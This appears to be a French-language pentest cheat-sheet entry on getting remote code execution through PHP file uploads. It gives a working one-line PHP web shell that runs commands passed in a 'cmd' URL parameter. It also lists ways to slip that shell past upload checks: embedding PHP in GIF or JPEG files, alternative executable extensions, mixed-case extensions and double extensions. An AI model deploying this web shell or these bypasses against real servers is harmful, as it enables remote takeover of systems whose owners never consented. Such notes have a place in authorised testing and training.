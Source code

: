 # PHP

**Facteur de risque** : RCE

## Description

> **PHP: Hypertext Preprocessor**, plus connu sous son sigle **PHP**, est un "langage de programmation" libre, principalement utilisé pour produire des pages Web dynamiques via un serveur HTTP (*Apache, lighttpd, nginx...*).

## Pré-requis

- Le serveur supporte le PHP

- Pourvoir upload des fichiers

- Accéder à ces fichiers

- Les fichiers stockés doivent être exécutés via PHP (même pour les images)
  
  - Impossible de nos jours. La configuration par défaut de PHP consiste à exécuter l'interpréteur PHP uniquement pour les fichiers .php, à l'aide de NGinx, Apache, Lighttpd etc...

## RCE

Le code PHP suivant permet un RCE :

```php
<?php echo "Shell";system($_GET['cmd']); ?>
```

Si on accédant à ce fichier, le mot Shell apparaît, il y a de grandes chances que le code a été exécuté côté serveur.

Pour lui envoyer des commandes, ajouter `?cmd=` suivi de la commande souhaité.

[Web Shells 101 Using PHP (Web Shells Part 2) | Acunetix](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/)

### Contournement

#### Du code PHP dans un fichier image

Du image (GIF ou JPEG) peut contenir du code PHP. Mais il faut s'assurer que après l'upload, l'image stocké est exécuté avec du PHP. De nos jours, l'interpreteur de PHP n'exécute que les fichiers en .php.

[Setting up PHP-FastCGI and nginx? Don’t trust the tutorials: check your configuration! &raquo; Neal Poole](https://nealpoole.com/blog/2011/04/setting-up-php-fastcgi-and-nginx-dont-trust-the-tutorials-check-your-configuration/)

[security - Can a GIF/JPEG file contain runnable PHP code? - Stack Overflow](https://stackoverflow.com/questions/13250471/can-a-gif-jpeg-file-contain-runnable-php-code)

[PHP security exploit with GIF images - PHP Classes](https://www.phpclasses.org/blog/post/67-PHP-security-exploit-with-GIF-images.html)

#### Extensions PHP

Trouver les extension manquantes qui peuvent être exécutées du côté serveur (ou peuvent être dangereuses du côté client)

| Extension |
| --------- |
| .php      |
| .phtml    |
| .php3     |
| .php4     |
| .php5     |
| .php7     |
| .phps     |
| .php-s    |
| .pht      |
| .phar     |
| .phpt     |
| **.pgif** |
| .phtm     |

htm

shtml

xhtml

cgi

Ajouter d'autres payload utilisant d'autre commandes PHP

## Uppercase some letter(s) of the extension

.pHp, .pHP5, .PhAr...

## Double (or more) extension

Useful to bypass misconfigured checks that test if a specific extension is just present
